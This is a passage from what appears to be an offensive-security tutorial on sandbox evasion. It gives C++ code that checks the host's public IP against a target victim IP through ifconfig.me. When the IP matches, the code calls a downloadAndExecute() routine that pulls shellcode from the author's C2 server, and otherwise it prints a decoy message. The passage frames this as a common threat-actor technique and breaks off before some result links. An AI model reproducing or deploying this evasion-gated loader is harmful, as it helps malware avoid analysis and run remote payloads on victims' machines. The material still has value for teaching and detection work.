 ```cpp
    while (true) {       
        stream->Read(buff, 35, &bytesRead);       
        if (0U == bytesRead) {           
            break;       
        }       
        s.append(buff, bytesRead);   
    }   
  // Compare if the string is equal to the targeted victim's IP. If true, return the check is successful. Else, fail the check.
    if (s == "VICTIM_IP") {       
        return TRUE;   
    }   
    else {       
    return FALSE;   
    }
} 
```

This code can be broken down into the following steps:

1. Declare the required variables mentioned above.
2. Open an internet stream with the URLOpenBlockingStreamA function to ifconfig.me/ip to check the current IP Address.
3. Write the data stream returned from the URLOpenBlockingStreamA function to the memory. 
4. Append the data from the memory buffer to a string variable.
5. Check and see if the string data is equal to the Victim's IP Address.
6. If True, return TRUE; if False, return FALSE.

Now we must modify our main function so that we can leverage our newly created function:

```cpp
int main(){
    if(checkIP() == TRUE){
        downloadAndExecute();
        return 0;
    }
    else {
        cout << "HTTP/418 - I'm a Teapot!";
        return 0;
    }
} 
```

The code above invokes the new function, checkIP(), and if the IP Address  returns TRUE, then invoke the downloadAndExecute() function to call the  shellcode from our C2 server. If FALSE, return HTTP/418 - I'm a teapot!".
**TestingOur Code**

Now that we have wrapped up our second Sandbox Evasion  technique, it is very important to know that this is an incredibly  common TTP used by threat actors. Both APTs and Red Teams alike often use services to check the "Abuse Info" of an IP Address to gather information about  an IP Address to determine if it is a legitimate company or not. [Any.Run](https://app.any.run/) is well aware of this Anti-Sandboxing technique and has even flagged it in our instance. You can see the detailed results at the links below:
